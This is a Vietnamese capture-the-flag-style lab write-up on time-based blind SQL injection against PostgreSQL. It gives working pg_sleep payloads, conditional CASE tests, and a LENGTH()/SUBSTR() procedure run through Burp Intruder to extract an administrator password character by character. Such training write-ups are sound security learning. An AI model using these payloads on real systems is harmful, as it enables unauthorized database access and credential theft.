







# Lab: Blind SQL injection with time delays and information retrieval

## Mô tả lab
Mục tiêu của bài lab dựa vào độ trễ phản hồi của server để xác định điều kiện đúng hay sai, từ đó suy ra dữ liệu trong cơ sở dữ liệu.

## Các bước thực hiện

### Test payload

Giống như bài **Lab: Blind SQL injection with time delays** ta sử dụng payload

```sql
'|| pg_sleep(5)--
```



Kết quả response có delay 10 giây. Điều đó cho thấy payload đã được thực thi thành công.

Vậy cách kiểm tra là tạo ra:
- một input làm truy vấn mất nhiều thời gian
- một input làm truy vấn phản hồi ngay

#### Trường hợp mất nhiều thời gian

```sql
'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE 'a' END) --
```


#### Trường hợp phản hồi ngay

```sql
'|| (SELECT CASE WHEN (1=2) THEN pg_sleep(5) ELSE 'a' END) --
```



### Xác định độ dài password của administrator

Mình sử dụng hàm `LENGTH()` rồi so sánh với các giá trị số.

Ví dụ payload kiểm tra password có độ dài lớn 1:

```sql
'|| (SELECT CASE WHEN (username = 'administrator' AND LENGTH(password)>1) THEN pg_sleep(5) ELSE 'a' END FROM users) --
```



Dùng Burp Intruder thử lần lượt từ `1` đến `30`.



Kết quả cuối cùng cho thấy:

- Password của `administrator` dài chính xác 20 ký tự

### Dò từng ký tự của mật khẩu

Sau khi biết độ dài là 20, tiếp tục brute force từng ký tự bằng hàm `SUBSTR()`.

Có thể dùng Burp Intruder với:

- Payload 1: số thứ tự vị trí từ `1...20`
 


- Payload 2: brute force ký tự



- Attack type: Cluster bomb

Lọc các response trên 5 giây.



Kết quả cuối cùng thu được password của tài khoản `administrator` là:

```text
ezecvpuiyjb5xtnshrx5
```


Lab solved.